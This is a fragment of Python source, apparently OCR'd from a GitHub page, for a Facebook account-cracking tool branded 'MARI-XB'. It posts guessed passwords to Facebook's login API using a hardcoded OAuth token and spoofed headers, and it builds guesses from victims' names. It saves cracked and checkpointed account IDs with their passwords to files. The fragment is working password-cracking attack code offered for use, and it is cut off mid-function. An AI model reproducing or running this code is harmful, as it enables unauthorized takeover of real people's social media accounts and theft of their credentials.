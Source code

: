                     'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 
                    'x-fb-friendly-name': 'authenticate', 
                    'x-fb-http-engine': 'Liger',
                    'user-agent': useragent}
            responce = requests.post('https://b-api.facebook.com/method/auth.login',data=dataX,headers=headersX,allow_redirects=False).text
            responce_json = json.loads(responce)
            if 'session_key' in responce_json:
                uidX = str(responce_json['uid'])
                if uidX not in oks:
                    print(f'\r{green}[MARIXB-OK] {uidX} | {pw} {white}')
                    open('/sdcard/MARIXB-OK.txt', 'a').write(uidX+'|'+pw+'\n')
                    oks.append(uidX)
            elif responce_json['error_code'] == 405:
                if uid not in cps:
                    print(f'\r{rad}[MARIXB-CP] {uid}     | {pw} {white}')
                    open('/sdcard/MARIXB-CP.txt', 'a').write(uid+'|'+pw+'\n')
                    cps.append(uid)
            else:continue
        cracked.append(uid)
    except requests.exceptions.ConnectionError:time.sleep(10)
    except Exception as e:pass
#_______[ B-API CRACK - FILE ]_____>>
def bapif(uidY,pwx,total):
    global oks,cps
    global ualist
    global cracked
    uid = uidY.split("|")[0]
    name = uidY.split("|")[1]
    fist = name.split(" ")[0]
    try:
        last = name.split(" ")[1]
    except IndexError:
        last = "Khan"
    try:
        sys.stdout.write(f'\r\r[{green}MARI-XB{white}] {len(cracked)}\{total} - {green}{len(oks)}{white}\{rad}{len(cps)}{white} ');sys.stdout.flush()
        for pw in pwx: